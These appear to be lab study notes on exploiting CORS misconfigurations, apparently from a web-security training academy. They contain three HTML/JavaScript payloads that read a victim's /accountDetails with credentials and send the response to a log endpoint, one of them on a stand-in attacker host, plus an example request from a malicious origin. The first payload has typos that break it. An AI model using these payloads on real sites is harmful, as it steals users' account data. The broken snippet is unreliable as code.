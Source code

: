 Some payloads work, some don't:

```html
<html>
<script>
	var req - newXMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://VULNERABLE-APP.com/accountDetails',true)
	req.withCredentials = true;
	req.send();

	function reqListener() {
		loation = 'https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+this.responseText;
	};
</script>
</html>
```

```html
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://<REDACTED>.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

```html
<html>
    <body data-rsssl=1>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://X.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```
# Server-Generated ACAO Header

Some apps provide access to other domains and allow access from any other domains. One way is via reading the Origin header from requests and including a response header stating the requesting origin is allowed. For example:

```html
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
